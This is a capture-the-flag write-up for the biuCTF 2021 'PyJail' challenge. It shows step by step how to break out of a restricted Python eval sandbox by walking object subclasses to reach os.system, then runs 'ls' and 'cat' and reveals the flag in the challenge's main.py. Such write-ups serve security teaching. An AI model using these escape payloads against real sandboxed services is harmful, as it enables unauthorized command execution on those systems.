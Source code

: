 # PyJail - biuCTF 2021

Let's connect to the server. In first glance, it's seems like a very restricted python shell that doesn't allow us to do almost anything and the only function that works is ```print```. After some experiment in the PyJail we can see that we can also call the ```__dir__``` method, which returns all variables and methods of an object. so lets run:
```python
print(print.__dir__())
```
and we get all themethods of the function class:
```python
['__repr__', '__hash__', '__call__', '__getattribute__', '__lt__', '__le__', '__eq__', '__ne__', '__gt__', '__ge__', '__reduce__', '__module__', '__doc__', '__name__', '__qualname__', '__self__', '__text_signature__', '__str__', '__setattr__', '__delattr__', '__init__', '__new__', '__reduce_ex__', '__subclasshook__', '__init_subclass__', '__format__', '__sizeof__', '__dir__', '__class__']
```
Now, using ```print.__class__```, we have access to a ```class``` object (specifically, the ```builtin_function_or_method``` class). Now we can use the ```__bases__``` method to accsess all the classes that ```builtin_function_or_method``` inheritence from:
```python
print(print.__class__.__bases__)
```
And we get ```(<class 'object'>,)```, which is the default class to inherit from in python. Now we use the ```__subclasses__``` method to get all subclasses of ```object```:
```python
print(print.__class__.__bases__[0].__subclasses__())
```
We get:
```python
[<class 'type'>, <class 'weakref'>, <class 'weakcallableproxy'>, <class 'weakproxy'>, <class 'int'>, <class 'bytearray'>, <class 'bytes'>, <class 'list'>, <class 'NoneType'>, <class 'NotImplementedType'>, <class 'traceback'>, <class 'super'>, <class 'range'>, <class 'dict'>, <class 'dict_keys'>, <class 'dict_values'>, <class 'dict_items'>, <class 'dict_reversekeyiterator'>, <class 'dict_reversevalueiterator'>, <class 'dict_reverseitemiterator'>, <class 'odict_iterator'>, <class 'set'>, <class 'str'>, <class 'slice'>, <class 'staticmethod'>, <class 'complex'>, <class 'float'>, <class 'frozenset'>, <class 'property'>, <class 'managedbuffer'>, <class 'memoryview'>, <class 'tuple'>, <class 'enumerate'>, <class 'reversed'>, <class 'stderrprinter'>, <class 'code'>, <class 'frame'>, <class 'builtin_function_or_method'>, <class 'method'>, <class 'function'>, <class 'mappingproxy'>, <class 'generator'>, <class 'getset_descriptor'>, <class 'wrapper_descriptor'>, <class 'method-wrapper'>, <class 'ellipsis'>, <class 'member_descriptor'>, <class 'types.SimpleNamespace'>, <class 'PyCapsule'>, <class 'longrange_iterator'>, <class 'cell'>, <class 'instancemethod'>, <class 'classmethod_descriptor'>, <class 'method_descriptor'>, <class 'callable_iterator'>, <class 'iterator'>, <class 'pickle.PickleBuffer'>, <class 'coroutine'>, <class 'coroutine_wrapper'>, <class 'InterpreterID'>, <class 'EncodingMap'>, <class 'fieldnameiterator'>, <class 'formatteriterator'>, <class 'BaseException'>, <class 'hamt'>, <class 'hamt_array_node'>, <class 'hamt_bitmap_node'>, <class 'hamt_collision_node'>, <class 'keys'>, <class 'values'>, <class 'items'>, <class 'Context'>, <class 'ContextVar'>, <class 'Token'>, <class 'Token.MISSING'>, <class 'moduledef'>, <class 'module'>, <class 'filter'>, <class 'map'>, <class 'zip'>, <class '_frozen_importlib._ModuleLock'>, <class '_frozen_importlib._DummyModuleLock'>, <class '_frozen_importlib._ModuleLockManager'>, <class '_frozen_importlib.ModuleSpec'>, <class '_frozen_importlib.BuiltinImporter'>, <class 'classmethod'>, <class '_frozen_importlib.FrozenImporter'>, <class '_frozen_importlib._ImportLockContext'>, <class '_thread._localdummy'>, <class '_thread._local'>, <class '_thread.lock'>, <class '_thread.RLock'>, <class '_io._IOBase'>, <class '_io._BytesIOBuffer'>, <class '_io.IncrementalNewlineDecoder'>, <class 'posix.ScandirIterator'>, <class 'posix.DirEntry'>, <class '_frozen_importlib_external.WindowsRegistryFinder'>, <class '_frozen_importlib_external._LoaderBasics'>, <class '_frozen_importlib_external.FileLoader'>, <class '_frozen_importlib_external._NamespacePath'>, <class '_frozen_importlib_external._NamespaceLoader'>, <class '_frozen_importlib_external.PathFinder'>, <class '_frozen_importlib_external.FileFinder'>, <class 'zipimport.zipimporter'>, <class 'zipimport._ZipImportResourceReader'>, <class '_ast.AST'>, <class 'codecs.Codec'>, <class 'codecs.IncrementalEncoder'>, <class 'codecs.IncrementalDecoder'>, <class 'codecs.StreamReaderWriter'>, <class 'codecs.StreamRecoder'>, <class '_abc_data'>, <class 'abc.ABC'>, <class 'dict_itemiterator'>, <class 'collections.abc.Hashable'>, <class 'collections.abc.Awaitable'>, <class 'collections.abc.AsyncIterable'>, <class 'async_generator'>, <class 'collections.abc.Iterable'>, <class 'bytes_iterator'>, <class 'bytearray_iterator'>, <class 'dict_keyiterator'>, <class 'dict_valueiterator'>, <class 'list_iterator'>, <class 'list_reverseiterator'>, <class 'range_iterator'>, <class 'set_iterator'>, <class 'str_iterator'>, <class 'tuple_iterator'>, <class 'collections.abc.Sized'>, <class 'collections.abc.Container'>, <class 'collections.abc.Callable'>, <class 'os._wrap_close'>, <class '_sitebuiltins.Quitter'>, <class '_sitebuiltins._Printer'>, <class '_sitebuiltins._Helper'>]
```

WOAH, thats a lot of information. but the class that attract us the most is ```os._wrap_close``` (index 133 in the list), since the desription of the challenge hints us that we should "gain knowledge about the system". After a quick search in google, it doesn't seems like the class itself can help us. But we can get access to the ```os``` module from it using ```__module__``` method. Unfortunately, we get the name of the module as a string, which doesn't really help us.
But we can get access to all of the functions in ```os``` with:
```python
print(print.__class__.__bases__[0].__subclasses__()[133].__init__.__globals__)
```
The variable ```__globals__``` hold a dictionary that holds all of the global variables in the module of a function (in our case the ```os``` module).
Now we have access to the ```system```. The ```system``` function executes a command on a shell. let's call the ```ls``` command by:
```python
print.__class__.__bases__[0].__subclasses__()[133].__init__.__globals__['system']('ls')
```
We get:
```
Dockerfile
README.md
ctf.xinetd
main.py
start.sh
```

Now we will read all the files using:
```python
print.__class__.__bases__[0].__subclasses__()[133].__init__.__globals__['system']('cat <filename>')
```
After reading all the files, we find the flag in ```main.py```:
```
def flag():
    flag = "biuCTF{T3hr3_iS_A_L0+_+0_d0_In_+HiS_PYjaIl!}"
    print("Is'nt that easy pal? Read the flag constant in this function now :)")

def globs():
    return globals()


def main():
    for _ in range(10):
        try:
            _ = eval(
                input("There is not much to do in this pyjail\n"),
                {'globals': globs, '__builtins__': {'print': print}}
            )
        except NameError as e:
            print("I have no idea what '{}' means".format(str(e.args).split('\'')[1]))
        except Exception as e:
            print("Something went wrong pal")


if __name__ == '__main__':
    main()
```
